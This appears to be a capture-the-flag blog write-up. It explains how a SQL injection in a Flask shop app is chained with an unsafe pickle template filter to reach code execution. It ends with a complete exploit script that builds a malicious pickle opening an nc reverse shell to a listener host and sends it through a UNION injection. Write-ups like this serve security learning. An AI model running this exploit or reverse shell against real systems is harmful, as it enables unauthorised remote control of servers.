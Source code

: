 ```yaml
---
layout: default
title:  "Pickle Wickle"
date:   2022-09-20 11:12:00 -0500
categories: jekyll update
templateEngineOverride: md
permalink: /bloghub/picklewickle/
---
```


{% raw %}

## Introduction
In this challenge we will take advantage of Flask template filter which uses pickle library to deserialize a python object, but before, we have to analyze a simple SQL injection so we can pass our payload properly. 

## Finding the Bug 
The application is a simple shop web app that lists only four items.

![image](/assets/images/cop.png)

Looking at the web app routes we find two simple routes: 
```python 
@web.route('/')
def index():
    return render_template('index.html', products=shop.all_products())


@web.route('/view/<product_id>')
def product_details(product_id):
    with open('/tmp/record.log', 'a+') as file:
        file.write(shop.select_by_id(product_id))
    return render_template('item.html', product=shop.select_by_id(product_id))
``` 

The interesting part here is the product/s object which gets rendered to the templates, by the `shop.select_by_id()`, moving forward we can check for this function implementation:

```python 
class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
``` 
the function select_by_id() lacks parametrization and hence is clearly SQLi vulnerable, but till this moment we still don't have interesting target to make use of this SQLi. 

## Never eat pickles!
Having a look at *app.py* we can see a Flask template filter defined that uses *pickle* library to load a base64 encoded object and deserialize it through *loads()*, then returns  back the object, as shown below: 
```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```
Flask filters are called with the **|** notation inside templates, let's see *item.html*

```html
<div class="row gx-4 gx-lg-5 align-items-center">
                    {% set item = product | pickle %}
```

the product object returned from the SQL query is returned to the pickle filter decorator, which calls the *pickle_loads()* passing the returned value. 

## Eat the pickle, but ... cut the onion first.
pickling in python is a famous insecure way to handle python objects because of the code execution that may occur in the deserialization process, in our case we can pass the base64 encoded malicious pickle object in  the URL parameter of */view/<product_id>*, but we have to find a way to insure the payload is returned from the SQL query first! 

### Not onions, I mean UNION 
Yes, as you know, after injecting our payload after the where clause, we can simply add an UNION statement with our custom payload, making the structure of the SQL statement as follows: 
```SQL 
SELECT data FROM products WHERE id='20' UNION SELECT '<pickle payload>' -- -'
``` 
This will eventually return the pickled payload we send.

## The exploit 
I wrote a simple exploit script that dumps a malicious pickle object which returns a command execution upon deserialization, sets up the SQLi payload along with the Base64 object, and sends it through a GET request, all you have to do is set your listener, and expose your victim,
Happy Hacking. 

```python 
import pickle, os, base64
import sys
import requests
from urllib.parse import quote 

class P(object):
    
    def __init__(self, host, port): 
        self.host = host 
        self.port = port
    
    def __reduce__(self): 
        return (os.system,("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f".format(self.host, self.port),))

if __name__ == "__main__": 
    
    try: 
        victim_url = sys.argv[1] 
        host = sys.argv[2] 
        port = sys.argv[3] 
        print("###### SENDING SHELL PAYLOAD ######")
        print('Make sure to setup your listener')
        if (not victim_url.startswith('http://') and not victim_url.startswith('https://')): 
            victim_url = 'http://' + victim_url   
        payload = victim_url + '/view/' + quote("1' UNION SELECT '{}' -- -".format(str(base64.b64encode(pickle.dumps(P(host, port))).decode())))
        response = requests.get(payload)     
    
    except: 
        print("Usage: python3 cop_exploit.py <victim> <listener host> <port>\n") 
        print("Example: python3 cop_exploit.py http://64.227.43.113:32298 6.tcp.ngrok.io 16451")
```
{% endraw %}